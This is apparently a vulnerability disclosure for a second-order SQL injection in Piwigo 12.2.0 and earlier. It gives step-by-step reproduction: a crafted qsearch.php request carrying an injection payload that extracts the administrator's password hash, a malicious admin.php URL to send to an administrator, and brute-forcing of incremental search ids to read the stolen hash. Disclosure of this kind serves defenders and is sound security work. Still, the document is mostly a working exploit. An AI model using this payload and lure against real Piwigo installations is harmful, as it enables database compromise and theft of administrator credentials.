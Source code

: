 ## Second-Order SQL Injection Vulnerabilities in Piwigo 12.2.0
<u>**Affected Version : <=12.2.0**</u>

A Second-Order SQL injection exists in Piwigo before 12.2.0. 
An attacker can use the function of search to insert some sql injection payload into the piwigo_search table and then use the id retrieved to generate an evil URL. When an administrator open the URL,the sql injection will be triggered. An attacker can exploit the vulnerabilities to gain access to the connected MySQL database.

**Steps to Reproduce:**

**Stepyi 1**
Request `http://127.0.0.1/qsearch.php?q[test'),((select concat("a:1:{s:1:\"q\";s:41:\"password:",(select mid(password,1,32) from piwigo_users where id%3d1),"\";}")))%23]=1`
And then it will be redirected to `http://127.0.0.1/index.php?/search/${id}`
Record the value of the id.

**Step 2**
Generate the URL `http://127.0.0.1/admin.php?page=history&search_id=${id}&user_id=1` (Replace the ${id} into the id that we have gotten last step).

And then send the URL to the administrator.

**Step 3**
When an administrator open the URL above,a piece of data that contains the password of the administrator account will be inserted into the piwigo_search table.If we want to retrieve the data,we need to know the id of the data that has been inserted into the piwigo_search table.Then we can request `http://172.20.10.8/index.php?/search/${id}` to  retrieve the password of the administrator.
![2](21.png)
Because the id is incremental,we can just bruteforce it.
